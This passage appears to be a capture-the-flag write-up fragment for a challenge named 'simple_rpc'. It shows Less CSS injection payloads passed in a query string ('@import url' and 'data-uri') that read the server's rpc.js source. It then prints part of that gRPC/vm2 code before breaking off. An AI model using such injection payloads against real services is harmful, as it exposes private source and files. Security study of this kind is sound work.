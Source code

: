 ### simple_rpc
`?less=@import url('rpc.js');`
```js
var PROTO_PATH = __dirname + '/eval.proto'; 3 const {VM} = require("vm2");
```
![](attachments/Pasted%20image%2020231104175840.png)

`/find_rpc?less=.test%20{%20%20%20%20content:%20data-uri(%27rpc.js%27);}`

![](attachments/Pasted%20image%2020231104180516.png)
```js
{

var PROTO_PATH = __dirname + '/eval.proto';

const {VM} = require("vm2");

var grpc = require('@grpc/grpc-js');

var protoLoader = require('@grpc/proto-loader');

var packageDefinition = protoLoader.loadSync(

    PROTO_PATH,

    {keepCase: true,

        longs: String,

        enums: String,

        defaults: true,

        oneofs: true

```